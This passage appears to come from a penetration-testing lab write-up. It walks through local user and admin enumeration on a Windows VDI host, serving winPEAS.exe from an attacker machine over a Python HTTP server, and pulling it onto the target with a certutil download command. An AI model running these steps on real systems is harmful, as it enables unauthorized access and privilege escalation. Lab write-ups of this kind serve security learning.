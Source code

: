 * `192.168.8.2`
* `10.1.1.8`

<br/>

Check local user and admin:

```
net user && net localgroup administrators
```

![picture 13](images/fde5b91a2fac426d8f9ba28170220bfe3e66ae2a70bdba83bbe34b4a419d514b.png)  

* `Nuclear\vdadmin` is the local admin

<br/>

Serve `winPEAS.exe` using python3 http.server on the attacker machine:

```
python3 -m http.server 80
```

![picture 14](images/8b23f498a9a2ed69327f8ab14d3c2173433b9977ef24bae9f3770bf3b10bba79.png)  

<br/>

On the VDI CMD, use `certutil` to download `winPEAS.exe`:

```
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

![picture 15](images/371e809f9cdd30924f6cae26ac22d655e7c29b2d208e8ccd0d6499d618a71ea9.png)  
